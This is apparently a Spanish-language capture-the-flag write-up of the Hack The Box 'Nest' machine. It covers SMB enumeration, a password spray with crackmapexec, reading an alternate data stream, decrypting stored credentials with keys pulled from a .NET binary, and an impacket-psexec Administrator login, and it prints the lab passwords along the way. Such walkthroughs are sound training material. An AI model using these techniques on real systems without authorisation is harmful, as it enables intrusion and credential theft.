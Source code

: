 ```yaml
---
description: '✍️ Autor: VbScrub🔍 Dificultad: Fácil 📅 Fecha de creación: 04/06/2020'
---
```


# Nest

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.178
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV -p- 10.10.10.178
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 445 (SMB):** El puerto 445/tcp está abierto y ejecutando el servicio `microsoft-ds?`, lo que indica la posible presencia de un servicio SMB en el sistema.
* **Puerto 4386 (unknown):** El puerto 4386/tcp también está abierto y ejecutando un servicio desconocido. Según el fingerprinting de respuesta, el servicio se identifica como `Reporting Service V1.2`, lo que sugiere que permite a los usuarios ejecutar consultas en bases de datos mediante el formato HQK. Entre los comandos disponibles se encuentran `LIST`, `SETDIR`, `RUNQUERY`, `DEBUG` y `HELP`. Esta funcionalidad podría representar un posible vector de ataque si el servicio no está correctamente asegurado.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p445,4386 -v 10.10.10.178
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio en el `/etc/hosts`.

```bash
echo "10.10.10.178 nest.htb" >> /etc/hosts
```

Listamos recursos compartidos.

```bash
smbclient -L 10.10.10.178
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido de los recursos compartidos.

```bash
smbclient \\\\nest.htb\\Users -N
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\nest.htb\\Data -N
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

En la ruta `/Shared/Templates/HR` hay un archivo interesante.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Tenemos unas credenciales por lo que con los usuarios descubiertos antes realizamos fuerza bruta.

```bash
crackmapexec smb nest.htb -u usuarios -p 'welcome2019' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Intenté iniciar sesión con los tres usuarios y, al usar **TempUser**, obtuve un archivo, pero estaba vacío. Volví a acceder al recurso compartido **Data** como **TempUser** y descargué los archivos. Entre ellos, encontré un archivo llamado **RU\_Config.xml**.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

En otro archivo (**config.xml**) encontramos también información.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Entramos donde **Carl**.

```bash
smbclient -U ./TempUser //10.10.10.178/Secure$
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Lo que estamos buscando es una línea del artículo que mencionamos antes, un algoritmo para descifrar el cifrado del archivo **RU\_Config.xml**. Quiero hacerlo rápido, así que voy a dotnetfiddle.net, realizar algunos ajustes al código y ejecutarlo con la contraseña cifrada que está en el archivo de configuración.

{% embed url="https://dotnetfiddle.net/" %}

El resultado es **xRxRxPANCAK3SxRxRx**. Bien, el usuario estaba claro, y ahora la contraseña está descifrada.

```
smbclient -U ./c.smith //10.10.10.178/Users
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Seguimos investigando para escalar a **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-24 110901.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux?source=post_page-----125aa20f9fea---------------------------------------" %}

```bash
allinfo "Debug Mode Password.txt"
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```
get "Debug Mode Password.txt":Password:$Data
```

Esto debería devolverte la contraseña en formato claro, que en este caso es **WBQ201953D8w**.

Con la contraseña obtenida, conéctate al servidor HQK:

```bash
debug WBQ201953D8w
```

Dentro del servidor, ejecuta el siguiente comando en el directorio LDAP para ver la configuración:

```bash
showquery 2
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Esto debería devolverte las credenciales del **Administrador** en formato cifrado. En el ejemplo, la contraseña es **yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=**.

```bash
echo "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=" | base64 --decode
```

Ejecuté el comando `file` sobre el archivo `HqKLdap.exe` y descubrí que es un ejecutable .NET. Lo copié a mi sistema Windows y lo abrí utilizando ILSpy. Dentro del archivo `HqKLdap`, en la sección `CR`, encontré la siguiente línea de código:

```csharp
return RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
```

Reemplacé esta línea en el script de Nest y modifiqué el archivo `config.xml` con el nombre de usuario y la contraseña de "Administrator". Luego ejecuté el script y obtuve lo siguiente:

**Anterior:**

```
XtH4nkS4Pl4y1nGX
Administrator
```

**Nuevo:**

```
AJPcXFcqZ32B993fPwoHWA==
XtH4nkS4Pl4y1nGX
```

La contraseña obtenida es: `XtH4nkS4Pl4y1nGX`.

Ahora, intentemos obtener una shell utilizando la siguiente herramienta:

```bash
impacket-psexec Administrator:XtH4nkS4Pl4y1nGX@nest.htb
```

Con este comando, deberíamos obtener acceso como `Administrator`.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
